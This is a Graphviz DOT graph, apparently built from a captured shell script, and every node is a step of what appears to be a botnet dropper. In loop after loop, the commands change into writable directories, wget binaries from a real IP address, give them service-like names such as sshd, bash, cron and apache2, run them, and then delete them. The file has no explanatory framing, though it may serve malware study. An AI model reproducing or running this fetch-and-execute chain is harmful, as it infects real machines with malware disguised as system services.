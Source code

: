 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://5.249.148.11/cuntyntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x cuntyntpd "];
12 -> 14 [label=";,"];
14 [label="./cuntyntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf cuntyntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://5.249.148.11/cuntysshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x cuntysshd "];
30 -> 32 [label=";,"];
32 [label="./cuntysshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf cuntysshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://5.249.148.11/cuntyopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x cuntyopenssh "];
48 -> 50 [label=";,"];
50 [label="./cuntyopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf cuntyopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://5.249.148.11/cuntybash "];
64 -> 66 [label=";,"];
66 [label="chmod +x cuntybash "];
66 -> 68 [label=";,"];
68 [label="./cuntybash "];
68 -> 70 [label=";,"];
70 [label="rm -rf cuntybash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://5.249.148.11/cuntytftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x cuntytftp "];
84 -> 86 [label=";,"];
86 [label="./cuntytftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf cuntytftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://5.249.148.11/cuntywget "];
100 -> 102 [label=";,"];
102 [label="chmod +x cuntywget "];
102 -> 104 [label=";,"];
104 [label="./cuntywget "];
104 -> 106 [label=";,"];
106 [label="rm -rf cuntywget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://5.249.148.11/cuntycron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cuntycron "];
120 -> 122 [label=";,"];
122 [label="./cuntycron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cuntycron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://5.249.148.11/cuntyftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x cuntyftp "];
138 -> 140 [label=";,"];
140 [label="./cuntyftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf cuntyftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://5.249.148.11/cuntypftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x cuntypftp "];
156 -> 158 [label=";,"];
158 [label="./cuntypftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf cuntypftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://5.249.148.11/cuntysh "];
172 -> 174 [label=";,"];
174 [label="chmod +x cuntysh "];
174 -> 176 [label=";,"];
176 [label="./cuntysh "];
176 -> 178 [label=";,"];
178 [label="rm -rf cuntysh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://5.249.148.11/cuntyshit "];
190 -> 192 [label=";,"];
192 [label="chmod +x cuntyshit "];
192 -> 194 [label=";,"];
194 [label="./cuntyshit "];
194 -> 196 [label=";,"];
196 [label="rm -rf cuntyshit "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://5.249.148.11/cuntyapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x cuntyapache2 "];
210 -> 212 [label=";,"];
212 [label="./cuntyapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf cuntyapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://5.249.148.11/cuntytelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x cuntytelnetd "];
228 -> 230 [label=";,"];
230 [label="./cuntytelnetd "];
230 -> 231 [label=";,"];
}
